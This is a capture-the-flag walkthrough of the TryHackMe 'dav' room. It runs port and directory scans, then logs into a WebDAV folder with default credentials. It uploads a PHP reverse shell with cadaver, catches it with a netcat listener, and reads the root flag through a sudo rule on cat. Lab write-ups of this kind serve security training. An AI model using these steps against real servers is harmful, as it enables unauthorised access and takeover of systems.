






<a href="https://tryhackme.com/room/bsidesgtdav"></a>

# dav

This is aboot2root machine for FIT and bsides guatemala CTF.

## nmap

Initial
```
~/CTF/tryhackme/dav$ nmap -A -sC -sV -oN nmap/initial $IP
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-24 07:19 BST
Nmap scan report for 10.10.143.156
Host is up (0.020s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.57 seconds
```
All Ports
```
~/CTF/tryhackme/dav$ nmap -p- -oN nmap/all_ports $IP
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-24 07:21 BST
Nmap scan report for 10.10.143.156
Host is up (0.019s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 13.84 seconds
```
Well, only HTTP to have a look at. Lets check with gobuster and nikto.

## gobuster
```
~/CTF/tryhackme/dav$ gobuster dir -u $IP -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.143.156
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/08/24 07:20:54 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/index.html (Status: 200)
/server-status (Status: 403)
/webdav (Status: 401)
===============================================================
2020/08/24 07:21:05 Finished
===============================================================
```
## nikto
```
~/CTF/tryhackme/dav$ nikto -h $IP
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.143.156
+ Target Hostname:    10.10.143.156
+ Target Port:        80
+ Start Time:         2020-08-24 07:20:22 (GMT1)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server may leak inodes via ETags, header found with file /, inode: 2c39, size: 590fce4d4ea8c, mtime: gzip
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ OSVDB-3233: /icons/README: Apache default file found.
+ 8041 requests: 0 error(s) and 7 item(s) reported on remote host
+ End Time:           2020-08-24 07:24:37 (GMT1) (255 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
Well not much more on offer. One single webdav directory. Let's see if we can get inside that with a secondary gobuster search.
```
Error: the server returns a status code that matches the provided options for non existing urls. 
http://10.10.143.156/webdav/cf0a362d-4d12-4523-8490-cd3b30fcdc9d => 401. 
To force processing of Wildcard responses, specify the '--wildcard' switch
```
OK, I've seen this before where there is a logon page so an error feedback provided to gobuster. If you use the --wildcard switch, you pretty much much see a verbose attempt unfold in front of your eyes, each time giving errors. That being the case lets look at the main browser page.

## webpage discovery
Single blank page, with logon request. 


<br>
## where to now
Looking at what we know. We have:

1. Looks like the world's smallest list. A directory set up with webDAV. No idea what this is but next options fit within the phrase Google Dorking!!

## dorking

Lets see what it is first. Good old Wikipedia

```
Web Distributed Authoring and Versioning (WebDAV) is an extension of the Hypertext Transfer Protocol (HTTP) that allows clients to perform remote Web content authoring operations. WebDAV is defined in RFC 4918 by a working group of the Internet Engineering Task Force.

The WebDAV1 protocol provides a framework for users to create, change and move documents on a server. The most important features of the WebDAV protocol include the maintenance of properties about an author or modification date, namespace management, collections, and overwrite protection. Maintenance of properties includes such things as the creation, removal, and querying of file information. Namespace management deals with the ability to copy and move web pages within a server's namespace. Collections deal with the creation, removal, and listing of various resources. Lastly, overwrite protection handles aspects related to locking of files.

Many modern operating systems provide built-in client-side support for WebDAV. 

````

<br>
So lets look at the website and see if we can gain further details.


<br>
Now I clicked about the site seeing where it would take me and I found a project Cadaver, which shows some promise as it looks as though it will allow us access to the webDAV setup.



A quick check on my Kali build and it comes pre installed!!
```
~/CTF/tryhackme/dav$ cadaver
dav:!> help
Available commands: 
 ls         cd         pwd        put        get        mget       mput       
 edit       less       mkcol      cat        delete     rmcol      copy       
 move       lock       unlock     discover   steal      showlocks  version    
 checkin    checkout   uncheckout history    label      propnames  chexec     
 propget    propdel    propset    search     set        open       close      
 echo       quit       unset      lcd        lls        lpwd       logout     
 help       describe   about      
Aliases: rm=delete, mkdir=mkcol, mv=move, cp=copy, more=less, quit=exit=bye
dav:!> 

```
Now what syntax requirements do I need to gain access. Obviously I need username and password. Possibly a default one? Next what commands do I need. Luckily we have a man page online

After some playing about and searching for an example, I only needed the http address. My searching for default passwords was not as easy as it seemed. My win was "webdav default credentials" which pointed me to a website and gave me some details
```

    The WebDAV plugin for the Apache server included with XAMPP version 1.7.3 or lower is enabled by default. 
    Since WebDAV is an often overlooked/underutilized functionality of the server, the default credentials associated with the WebDAV account are most likely left unchanged by the server admin. 
    The security setup page for the XAMPP server does not mention that WebDAV is enabled by default or ask the server admin to change the default username & password. This poor design choice leads many instances of XAMPP to keep the default credentials and be vulnerable to remote attacks. 

# cmds

    login to the XAMPP server's WebDAV folder 
        cadaver http://<REMOTE HOST>/webdav/
        user: <insert-user-here>
        pass: <insert-password-here>
    upload a file to the webdav folder 
        put /tmp/helloworld.txt 

``` 
Not quite the same software but surprise, it did work giving me access to the browser and commandline.
```
/CTF/tryhackme/dav$ cadaver http://10.10.41.81/webdav
Authentication required for webdav on server `10.10.41.81':
Username: wampp
Password: 
dav:/webdav/> 
```


So we know from the list of commands and descriptions that we can add files directly, so lets try to upload the pentestmonkey php-reverse-shell.php file. I set up a netcat listening to port 4567 on my host machine and upload it using webdav.
```
dav:/webdav/> put rev.php rev.php
Uploading rev.php to `/webdav/rev.php':
Progress: [=============================>] 100.0% of 5489 bytes succeeded.
dav:/webdav/> 
```
No I go to the website webdav directory and it is there.



I just click and then I'm in on a shell.

```
/media/sf_CTF/tryhackme/dav$ nc -lnvp 4567
listening on [any] 4567 ...
connect to [10.9.12.213] from (UNKNOWN) [10.10.41.81] 53986
Linux ubuntu 4.4.0-159-generic #187-Ubuntu SMP Thu Aug 1 16:28:06 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 13:10:52 up 32 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python -c "import pty; pty.spawn('/bin/bash')"
www-data@ubuntu:/$ ls
ls
bin   etc	  initrd.img.old  lost+found  opt   run   sys  var
boot  home	  lib		  media       proc  sbin  tmp  vmlinuz
dev   initrd.img  lib64		  mnt	      root  srv   usr  vmlinuz.old
www-data@ubuntu:/$ cd home
cd home
www-data@ubuntu:/home$ ls
ls
merlin	wampp
www-data@ubuntu:/home$ cd merlin
cd merlin
www-data@ubuntu:/home/merlin$ ls
ls
user.txt
www-data@ubuntu:/home/merlin$ cat user.txt
cat user.txt
<insert-user-flag-here>
```
There we have it a quick search and we have the user flag. 

Now let us see how we can get to root. 
```
www-data@ubuntu:/home/merlin$ sudo -l
sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat
www-data@ubuntu:/home/merlin$ sudo cat /root/root.txt
sudo cat /root/root.txt
<insert-root-flag-here>
www-data@ubuntu:/home/merlin$ 
```
With sudo -l as cat, we just needed to read the root.txt file.

The third in this series, was again a really enjoyable challenge. Love the use of an older application as this did challenge me in my search skills. 

Again these things are always easy when you know how!!

Continued thanks go to [stuxnet](https://tryhackme.com/p/stuxnet) again for this room. Much appreciated.

Regards

K

<script src="https://tryhackme.com/badge/65208"></script>
